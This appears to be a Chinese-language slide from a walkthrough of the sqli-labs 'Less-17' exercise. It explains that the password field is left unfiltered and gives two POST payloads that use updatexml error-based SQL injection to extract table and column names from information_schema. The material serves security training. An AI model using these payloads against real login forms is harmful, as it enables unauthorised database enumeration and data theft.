

# Less-17
以下均为POST内容：
首先在代码中加入两行:  echo $sql;              echo “</br>”;  而且要是update后也加上。
使用了get_magic_quotes_gpc      name和password分开验证，而且在验证的时候对于name进行了过滤处理，将’进行了转义
首先我们要知道用户的名字是多少，然后才可以进行接下来的操作
1. uname=admin&passwd=adm ‘ and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=’security‘ limit 0,1),0x7e),1)#&submit=Submit  通过查询，可以得到security库下面的其中一个表名字
2. uname=admin&passwd=adm ‘ and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=’users‘ limit 0,1),0x7e),1)#&submit=Submit 同样的方法可以获得其他的数据